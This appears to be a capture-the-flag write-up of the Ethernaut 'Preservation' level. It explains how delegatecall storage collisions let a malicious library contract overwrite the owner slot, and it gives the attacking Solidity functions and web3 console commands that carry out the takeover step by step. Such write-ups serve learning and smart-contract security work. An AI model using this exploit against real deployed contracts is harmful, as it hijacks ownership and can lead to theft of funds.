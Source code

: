 ## Storage layout

Both internal adresses point to `LibraryContract` instances.
These are called using `delegatecall`, so they have access to the storage of the `Preservation` object.

The storage layout of the `Preservation` contract is:

```solidity
address public timeZone1Library; // slot 0
address public timeZone2Library; // 1
address public owner;  // 2
uint storedTime; // 3
```

Since no two variables can be combined into less than 32 bytes, they are each on a distinct slot.

While `storedTime` is in slot 3 in the originating contract, it is in slot 0 in the library.

## Overwriting the storage

So, the `setTime` in the library will overwrite the first slot, which is `timeZone1Library` in the original contract.

First, it can be set to the address of the malicious contract:

```solidity
function changeLibraryAddress(address target) public {
    Preservation(target).setFirstTime(uint(uint160(address(this))));
}
```

Now, the calls to `setFirstTime` will trigger `setTime` in our contract.

This function can be written to overwrite the owner, IE the third slot:

```solidity
function setTime(uint time) public {
    owner = tx.origin;
}
```

By mirroring the storage layout from the `Preservation` contract:

```solidity
address public _a;
address public _b;
address public owner;
```

Finally, the attack is triggered by another call to `setFirstTime`:

```solidity
function changeContractOwner(address target) public {
    Preservation(target).setFirstTime(block.timestamp);
}
```

## Attack

Setup:

```js
abi = '[{"inputs":[{"internalType":"address","name":"target","type":"address"}],"name":"changeContractOwner","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[{"internalType":"address","name":"target","type":"address"}],"name":"changeLibraryAddress","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[{"internalType":"uint256","name":"time","type":"uint256"}],"name":"setTime","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"_a","outputs":[{"internalType":"address","name":"","type":"address"}],"stateMutability":"view","type":"function"},{"inputs":[],"name":"_b","outputs":[{"internalType":"address","name":"","type":"address"}],"stateMutability":"view","type":"function"},{"inputs":[],"name":"owner","outputs":[{"internalType":"address","name":"","type":"address"}],"stateMutability":"view","type":"function"}]';
graff = new web3.eth.Contract(JSON.parse(abi), '0x0b92590496b7CF89Fc6533E27A44Bd846053F04E');
```

Attack:

```js
// '0xf88ed7D1Dfcd1Bb89a975662fd7cB536058F3a30'
await contract.timeZone1Library()
// step 1
graff.methods.changeLibraryAddress(contract.address).send({from: player}, function(e, d) {console.log(d);});
// '0x0b92590496b7CF89Fc6533E27A44Bd846053F04E'
await contract.timeZone1Library()
// '0x7ae0655F0Ee1e7752D7C62493CEa1E69A810e2ed'
await contract.owner()
//step 2
graff.methods.changeContractOwner(contract.address).send({from: player}, function(e, d) {console.log(d);});
// '0xAAD026992b0065D4A9c7019B082cb748D042411F'
await contract.owner()
```

